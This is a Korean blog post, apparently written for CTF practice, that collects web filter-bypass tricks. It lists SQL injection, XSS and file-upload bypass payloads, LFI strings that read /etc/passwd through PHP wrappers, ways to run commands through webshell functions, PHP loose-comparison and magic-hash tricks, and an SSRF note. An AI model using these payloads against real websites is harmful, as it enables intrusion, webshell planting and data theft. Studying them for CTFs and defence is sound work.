 ```yaml
---
layout: post
title: "Web trick(bypass) for CTF "
excerpt: "Try to know trick & use it ~_~"
date: 2020-11-21
categories: [Web]
comments: true 

---
```


이번에는 ctf를 위한 다양한 웹 트릭 및 우회방법들을 간단하게나마 정리를 해보려고한다. 

<h3>0x0. SQLI bypass </h3>

```
+로 우회  ex)'+or+1=1
/**/주석으로 우회 ex)'/**/or/**/1=1
#주석으로 우회 ex)'#%0aor#%0a1=1
--주석으로 우회
Tab으로 우회 ex)'%09or%091=1
Line Feed로 우회 ex)'%0aor%0a1=1
괄호로 우회 ex)(2)or(1=1)
Carrage Return으로 우회 ex)'%0dor%0d1=1
%0b,%a0,%0c ~~
' > "  ex) " or 1=1
' > \ ex) \ or 1=1 
;00으로 우회
substr > substring으로 변경 / mid로 우회
ascii >  ord나 hex , char, unhex등 이용
= > LIKE등으로 변경
load_file/*test*/(0x~~)
concat() ,alias 이용
uNiOn AlL SeLecT등의 케이스 이용
1+uni*on+sel*ect+1,3--+- 등 특수문자 이용
id=1&id=*/union/*&id=*/select/*&id=*/1,2+--+ HPP 이용
(select 0xAAAAAAAAAAAAAAAA ..... A's) bof를 이용
```



<h3>0x1. File upload bypass</h3>

```
.php > phtml. pHp, php.suspected, .php3, .htm, .php%00.png , .php/, .php.\ 
.asp > .cer, .asa, .cdx, .AsP, .asp%00.jpg
.jsp > .jsw, .jsv, .jspx, .war, .JsP, .jsp%00.png, .js%70, .%22jsp 
.htaccess변조 및 업로드 > AddHandler text/html .php .png 등등
GIF89a; 등을 이용하여 GIF로 위조
이미지 파일에 쉘코드 삽입 등등
gif to xss/csrf 등등 
파일명에 페이로드 삽입 ex) <script>alert(1)</script>.jpg
```



<h3>0x2. LFI bypass</h3>

```
php wrappers > php?page=expect://ls , php://input&cmd=ls , php://filter/convert.base64-encode/resource=/etc/passwd 
zip wrappers > php?page=zip://path/to/file.zip#sh
null byte > php?page=/etc/passwd%00 , page=/etc/passwd%2500
```



<h3>0x3. XSS bypass</h3>

```
javas%09cript:alert , param=test`-alert(1)=`def';
param=test'&&'http://naver.com';
.을 필터링 > document['cookie']
;나 + 필터링 > 'test'-alert(1)-'def'
""를 필터링 > eval[alert(1)]
native function 필터링 > alert;a(1) 
```



<h3>0x4. php trick</h3>

```
== 연산자의 느슨함을 이용한 트릭
```

| ==           | true  | false | 1     | 0     | -1    | "1"   | "0"   | "-1"  | null  | array() | array(1) | array("php") | "php" | ""    | NAN   |
| ------------ | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ------- | -------- | ------------ | ----- | ----- | ----- |
| true         | true  | false | true  | false | true  | true  | false | true  | false | false   | true     | true         | true  | false | true  |
| false        | false | true  | false | true  | false | false | true  | false | true  | true    | false    | false        | false | true  | false |
| 1            | true  | false | true  | false | false | true  | false | false | false | false   | false    | false        | false | false | false |
| 0            | false | true  | false | true  | false | false | true  | false | true  | false   | false    | false        | true  | true  | false |
| -1           | true  | false | false | false | true  | false | false | true  | false | false   | false    | false        | false | false | false |
| "1"          | true  | false | true  | false | false | true  | false | false | false | false   | false    | false        | false | false | false |
| "0"          | false | true  | false | true  | false | false | true  | false | false | false   | false    | false        | false | false | false |
| "-1"         | true  | false | false | false | true  | false | false | true  | false | false   | false    | false        | false | false | false |
| null         | false | true  | false | true  | false | false | false | false | true  | true    | false    | false        | false | true  | false |
| array()      | false | true  | false | false | false | false | false | false | true  | true    | false    | false        | false | false | false |
| array(1)     | true  | false | false | false | false | false | false | false | false | false   | true     | false        | false | false | false |
| array("php") | true  | false | false | false | false | false | false | false | false | false   | false    | true         | false | false | false |
| "php"        | true  | false | false | true  | false | false | false | false | false | false   | false    | false        | true  | false | false |
| ""           | false | true  | false | true  | false | false | false | false | true  | false   | false    | false        | false | true  | false |
| NAN          | true  | false | false | false | false | false | false | false | false | false   | false    | false        | false | false | false |

```
magic hash를 이용한 트릭 > 
"0e1354" == "0e87453" // true
"0" == "0e7124511451155" //true
"0" == md5("240610708") // true
"0" == sha1("w9KASOk6Ikap") // true
md5("QLTHNDT") == md5("QNKCDZO") // true

.을 이용한 함수 호출 > "sy"."stem"('/bin/sh');
<? <?php 이외에 php 선언 > <script language='php'>
백쿼터(`)를 이용한 함수 호출 > echo `ls`;를 하면 system('ls')과 같음
17자리가 넘는 두 수를 비교하면 미세한 차이는 무시
함수를 문자열로 호출> "phpinfo();"
아파치는 다중 확장자 가능 >  webshell.php.test는 정상 작동
대괄호 없이 배열에 접근 > ${${$variables{0}}{0}}();등의 형태를 통해서 가능
strip_tags 함수의 트릭 > strip_tags("<a/udio>") >  a 태그로 인식
젠드엔진에 의한 타입 캐스팅
언더바 우회 > __main__같은걸 호출할때 .main. , %20main%20 등으로 우회 가능
system 함수 필터링 > exec(), shell_exec(), passthru() 등으로 웹쉘
parse_url등의 url을 파싱하는 함수> ssrf 등으로 연계 가능
함수들 필터링 우회 >   l$@s 등으로 우회
```

계속해서 ctf나 공부를 하면서 얻는 지식들을 정리할 예정

<h3>0x5. SSRF</h3>

이번에 Bamboo CTF를 진행하면서 ssrfrog문제를 풀다가 발견한건데, 이번 문제 같은 경우는 중복문자를 사용할 수 없는 조건이 걸려있었는데, 이걸

http://example.com이라는 url이 있다고 가정하면  HtTp:Example.coM 으로 우회를 하고, 그 뒤에  Co0o0l-fla4a4g.com을 아스키문자로 변환하여 인코딩되는 취약점을 이용해서 우회하는 문제였다.  https://github.com/kangsecu/ctf-writeups-2021/tree/master/bamboo-fox/ssrfrog 이 글에 작성자분이 정리를 잘 해주셔서 재미있게 읽었다.

